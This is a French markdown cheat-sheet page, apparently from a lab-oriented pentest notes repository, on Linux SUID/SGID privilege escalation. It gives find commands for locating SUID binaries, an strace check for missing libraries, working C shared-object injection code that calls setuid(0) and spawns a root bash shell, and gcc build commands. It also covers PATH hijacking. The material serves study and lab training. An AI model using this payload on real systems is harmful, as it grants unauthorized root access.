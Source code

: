 # SUID & GUID

Liste tout les fichiers qui ont des bits SUID ou SGID définis

```sh
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
find / -user root -perm /4000 -exec ls -ldb {} \; 2>/dev/null
```

Recherchez tous les exécutables SUID/SGID.
Cela peut aussi afficher les programmes et leurs version une recherche dessus est importante.

```sh
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

## Shared Object Injection

L'  exécutable `/usr/local/bin/suid-so` SUID est vulnérable à l'injection d'objets partagés.

> `strace` permet de voir les appels que fait un programme au système d'exploitation, ce qui peut être utile pour comprendre son fonctionnement.

Exécutez **strace** sur le fichier et recherchez dans la sortie les appels d'ouverture/accès et les erreurs « aucun fichier de ce type » :

```sh
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```


> Verifier si l'exécutable tente de charger certain objet partagé dans certain répertoire mais ne la trouve pas; verifier aussi si vous avez des droits d'ecriture sur ces dossier introuvable.


### Exploitation

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

```sh
gcc -shared -fPIC -o /FULL_PATH_TO/FILE.so libcalc.c
```

```sh
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```

## Environment Variables

L' exécutable **/usr/local/bin/suid-env** peut être exploité car il hérite de la variable d'environnement PATH de l'utilisateur et tente d'exécuter des programmes sans spécifier de chemin absolu.

Utiliser `string /usr/local/suid-env`

Voir la partie [PATH](./PATH.md)



## Comprendre le SUID, SGID, Sticky Bit

| Permission | Sur les fichiers                                                                    | Sur les dossier                                                               |
| ---------- | ----------------------------------------------------------------------------------- | ----------------------------------------------------------------------------- |
| SUID       | L'utilisateur exécute le fichier avec les les privilèges du propriétaire du fichier |                                                                               |
| SGID       | L'utilisateur exécute le fichier avec l'autorisation du propriétaire _du groupe_ .  | Le fichier créé dans le répertoire obtient le même propriétaire de groupe.    |
| Sticky Bit |                                                                                     | Les utilisateurs ne peuvent pas supprimer les fichiers d'autres utilisateurs. |
